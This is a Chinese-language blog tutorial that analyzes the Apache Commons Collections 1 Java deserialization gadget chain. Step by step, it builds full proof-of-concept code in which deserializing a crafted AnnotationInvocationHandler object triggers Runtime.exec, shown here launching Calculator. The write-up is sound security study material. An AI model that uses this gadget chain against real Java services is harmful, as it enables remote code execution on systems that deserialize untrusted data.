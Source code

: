 # CommonsCollections1链详解


# CommonsCollections1链详解
jdk8源码下载
https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/af660750b2f4
**漏洞触发点在**`org.apache.commons.collections.functors.InvokerTransformer`
其中的`transform()`方法
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142003386.png)
很明显的一个反射调用，其中`iMethodName、iParamTypes、iArgs`都是可控的变量，便可以调用任意方法和任意参数
看一下构造器是如何赋值的
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142005500.png)
构造一个简单的 payload 试试
`new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;}).transform(Runtime.getRuntime());`
``
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142007538.png)
找一个任意类调用`transforms()`方法的方法，这里选择`org.apache.commons.collections.map.TransformedMap`类的`checkSetValue()`方法
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142009339.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142010479.png)
`valueTransformer`变量可控
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142011147.png)
但是因为构造器是`protected`修饰，所以无法直接调用，利用这里的静态方法`decorate()`进行了调用
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142012194.png)
再查看一下哪里调用了`checkSetValue()`方法，只有这一处
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142022694.png)
`setValue()`方法调用了`checkSetValue()`，构造一个`payload`，看看能不能通
```java
Runtime r = Runtime.getRuntime();  
InvokerTransformer invokerTransformer = new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});  
HashMap&lt;Object,Object&gt; map = new HashMap&lt;&gt;();  
map.put(&#34;key&#34;,&#34;value&#34;);  
Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,invokerTransformer);  
  
for(Map.Entry entry:transformedMap.entrySet()){  
    entry.setValue(r);
```
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142036218.png)
接着找一个`setValue()`方法的调用，在`sun.reflect.annotation.AnnotationInvocationHandler`类中，找到了如下方法
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142044567.png)
这里调用了`setValue()`方法，并且还在`readObject()`方法中，继续构造`poc`
```java
Runtime r = Runtime.getRuntime();  
InvokerTransformer invokerTransformer = new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});  
HashMap&lt;Object,Object&gt; map = new HashMap&lt;&gt;();  
map.put(&#34;key&#34;,&#34;value&#34;);  
Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,invokerTransformer);  
  
Class c = Class.forName(&#34;sun.reflect.annotation.AnnotationInvocationHandler&#34;);  
Constructor annotationInvocationhandleconstructor = c.getDeclaredConstructor(Class.class,Map.class);  
annotationInvocationhandleconstructor.setAccessible(true);  
Object o = annotationInvocationhandleconstructor.newInstance(Target.class,transformedMap);
```
但是这里存在两个问题
第一个问题是`Runtime`没有实现`Seriablable`接口，无法参与序列化过程
利用反射来解决，这里再利用一个`ChainedTransformer.transform`方法
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142055839.png)
简单来说就是上一个执行`transform`方法返回的结果作为下一个执行`transform`方法输入
```java
Transformer[] transformers = new Transformer[]{  
        new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),  
        new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),  
        new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})  
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```
还有一个问题，无法控制`setValue()`里面的参数值
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142058315.png)
这里利用`org.apache.commons.collections.functors.ConstantTransformer`的`transform()`方法，无论传入什么，都会返回固定的值
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142059785.png)
所以完善一下上面的`poc`
```java
Transformer[] transformers = new Transformer[]{
		new ConstantTransformer(Runtime.class),
        new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),  
        new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),  
        new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})  
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```
于是完整的`poc`如下
```java
package org.example.CommonsCollections;  
  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
  
import java.io.*;  
import java.lang.annotation.Target;  
import java.lang.reflect.Constructor;  
import java.util.HashMap;  
import java.util.Map;  
  
public class CommonsCollection1 {  
    public static void main(String[] args) throws Exception{  
  
        Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(Runtime.class),  
                new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),  
                new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),  
                new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})  
        };  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
        chainedTransformer.transform(Runtime.class);  
        InvokerTransformer invokerTransformer =new  InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});  
        HashMap&lt;Object, Object&gt; map = new HashMap&lt;&gt;();  
        map.put(&#34;value&#34;,&#34;value&#34;);  
        Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,chainedTransformer); 
        Class c = Class.forName(&#34;sun.reflect.annotation.AnnotationInvocationHandler&#34;);  
        Constructor AnnotationInvocationHandlerConstructor = c.getDeclaredConstructor(Class.class,Map.class);  
        AnnotationInvocationHandlerConstructor.setAccessible(true);  
        Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);  
        serialize(o);  
        unserialize(&#34;ser.bin&#34;);  
  
    }  
  
    public static void serialize(Object obj) throws Exception{  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));  
        oos.writeObject(obj);  
    }  
  
    public static Object unserialize(String filename) throws Exception{  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));  
        Object obj = ois.readObject();  
        return obj;  
  
    }  
}
```
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142111136.png)
整个调用栈如下
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151320208.png)
**注**
这里为什么要用`Target`
`Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);`
因为`Target`中有值是`value`
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142103316.png)
这里的`getKey()`获取的就是，上面`map.put()`放入的`key`值
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142108071.png)
`map.put(&#34;value&#34;,&#34;value&#34;);`
`key`放入`value`，正好能取出`Target`中的值，所以就绕过了`if`条件


---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/commonscollections1%E9%93%BE%E8%AF%A6%E8%A7%A3/  

